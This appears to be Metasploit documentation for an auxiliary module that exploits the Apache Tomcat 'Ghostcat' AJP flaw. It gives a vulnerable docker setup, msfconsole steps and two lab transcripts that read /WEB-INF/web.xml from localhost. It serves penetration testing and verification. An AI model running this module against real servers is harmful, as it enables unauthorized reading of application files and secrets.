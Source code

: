 ## Vulnerable Application

### Description

This module can be used to retrieve arbitrary files from anywhere in the web application, including the `WEB-INF` and `META-INF`
directories and any other location that can be reached via `ServletContext.getResourceAsStream()` on Apache Tomcat servers.
It also allows the attacker to process any file in the web application as JSP.

### Setup

Running within a docker container:

```
docker run --name tomcat --rm -p 8080:8080 -p 8009:8009 tomcat:8.5.32
```

## Verification Steps

1. Install the application and start it
2. Start msfconsole
3. Do: `use auxiliary/admin/http/tomcat_ghostcat`
4. Do: `set RHOSTS [ip]`
5. Do: `set RPORT [port]`
6. Do: `set FILENAME [filename]`
7. Do: `run`

## Options

### FILENAME
The file you would like to retrieve from the target web application. Defaults to `/WEB-INF/web.xml`

### AJP_PORT
The port on the target that is running the Apache JServ Protocol (AJP).

## Scenarios

### Apache Tomcat 8.5.32

```
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8080
RPORT => 8080
msf auxiliary(admin/http/tomcat_ghostcat) > set FILENAME /WEB-INF/web.xml
FILENAME => /WEB-INF/web.xml
msf auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 127.0.0.1
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1227-1529524397000"
Last-Modified: Wed, 20 Jun 2018 19:53:17 GMT
Content-Type: application/xml
Content-Length: 1227
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
  version="3.1"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>

[+] 127.0.0.1:8080 - /Users/user/.msf4/loot/20210408102538_default_127.0.0.1_WEBINFweb.xml_436040.txt
[*] Auxiliary module execution completed
```

### Apache Tomcat on Windows 10.0.16299.125

```
  [*] Processing tomcat_ghostcat.rb for ERB directives.
  resource (tomcat_ghostcat.rb)> use auxiliary/admin/http/tomcat_ghostcat
  resource (tomcat_ghostcat.rb)> set rport 8080
  rport => 8080
  resource (tomcat_ghostcat.rb)> set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  resource (tomcat_ghostcat.rb)> set verbose true
  verbose => true
  resource (tomcat_ghostcat.rb)> set FILENAME /WEB-INF/web.xml
  filename => /WEB-INF/web.xml

  resource (tomcat_ghostcat.rb)> run
  [*] Running module against 127.0.0.1
  <?xml version="1.0" encoding="UTF-8"?>
<!--
    Copyright 2017 The MIT Internet Trust Consortium

    Portions copyright 2011-2013 The MITRE Corporation

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
-->

  <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"

xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd">

version = "4.0"
metadata-complete="true">

<display-name> Welcome to Tomcat </display-name>
<description>
 Welcome to Tomcat
 </description>

 <web-app>
[*] Auxiliary module execution completed

```
